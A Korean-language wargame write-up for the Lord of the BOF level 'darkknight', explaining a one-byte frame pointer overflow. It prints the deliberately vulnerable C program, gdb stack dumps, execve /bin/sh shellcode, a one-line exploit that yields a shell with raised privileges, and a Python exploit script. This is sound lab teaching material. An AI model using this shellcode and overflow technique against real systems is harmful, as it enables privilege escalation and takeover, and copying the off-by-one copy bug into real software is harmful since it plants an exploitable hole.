 ```yaml
---
title: "[LOB]Level12. darkknight"
tags: [LOB, writeup, FPO]
author: eli_ez3r
key: 20180830
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```


[SFP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/
#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

-----

### 0x01. Analysis

problem_child 함수를 보면 41바이트만 복사하게 된다.

힌트에 나왔듯이 SFP주소에 1바이트만 Overflow 시킬수 있는 공격이 FPO(Frame Pointer Overflow) 공격이다.

SPF의 1바이트를 변경시키면 근처 스택 주소로 SFP를 변조 시킬 수 있다.



실제 올라가게 되는 problem_child의 buffer배열 주소를 구해보자.

```
[golem@localhost golem]$ ./aarkknight `python -c 'print "A"*4+"S"*36+"\x80"'`
AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS?퓹? ♠?왠?옹   ♥@☻
Segmentation fault (core dumped)
[golem@localhost golem]$ gdb -c core
Core was generated by `./aarkknight AAAASSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/32x $esp-4
0xbffffc84:     0x41414141      0x53535353      0x53535353      0x53535353
0xbffffc94:     0x53535353      0x53535353      0x53535353      0x53535353
0xbffffca4:     0x53535353      0x53535353      0xbffffc80      0x0804849e
0xbffffcb4:     0xbffffe06      0xbffffcd8      0x400309cb      0x00000002
0xbffffcc4:     0xbffffd04      0xbffffd10      0x40013868      0x00000002
0xbffffcd4:     0x08048390      0x00000000      0x080483b1      0x0804846c
0xbffffce4:     0x00000002      0xbffffd04      0x080482e4      0x080484dc
0xbffffcf4:     0x4000ae60      0xbffffcfc      0x40013e90      0x00000002
```

problem_child의 buffer배열의 시작주소는 `0xbffffc84`로 확인되고 있다.

이제 우리는 problem_child함수의 sfp 1byte를 바꿀수 있는 것을 이용하여 공격을 해야한다.



여기서 스택주소로 변경시킬 때 중요한 점은 SFP에 [원하는 주소-4] 주소를 넣어야 된다는 점이다.

그 이유는 함수가 끝날 때, leave - ret 순서로 종료하게 되게 때문이다.

> leave 명령어는 `mov esp, ebp`, `pop ebp` 순으로 진행되고, 
>
> ret 명령어는 `pop eip`, `jmp eip` 순으로 진행된다.
>
> 자세한 내용 설명은 맨 하단으로~

그리고 problem_child의 buffer배열의 시작부분에 shellcode가 실행될 주소를 넣어주면 된다.

[LOB Darkknight문제를 이용한 SFP Overflow 설명]( https://eliez3r.github.io/post/2019/10/17/study-system-SFP-Overflow.html )

-----

&[buffer - 4] : 0xbffffc80

&[buffer + 4] : 0xbffffc88

### 0x02. Exploit

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```
[golem@localhost golem]$ ./darkknight `python -c 'print "\x88\xfc\xff\xbf"+"\x90"*12+"\x31\xc0\x50\x68\x2f\x2f\x73\x 68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x80"'`
덡퓧릱릱릱릱릱?픐h//shh/bin됥PS됣솻
                                     ??퓹?  ♠?왠?옹    ♥@☻
bash$ id
uid=511(golem) gid=511(golem) euid=512(darkknight) egid=512(darkknight) groups=511(golem)
bash$ my-pass
euid = 512
new attacker
```

-----

```python
import os
import struct

append = lambda x: payload + x
p8 = lambda x: struct.pack("<B", x)
p32 = lambda x: struct.pack("<I", x)

target = "/home/golem/darkknight"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
buffer_addr = 0xbffffc84
last_sfp = 0x84 - 4

payload = p32(buffer_addr + 4)
payload = append("\x90"*(40-4-len(shellcode)))
payload = append(shellcode)
payload = append(p8(last_sfp))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

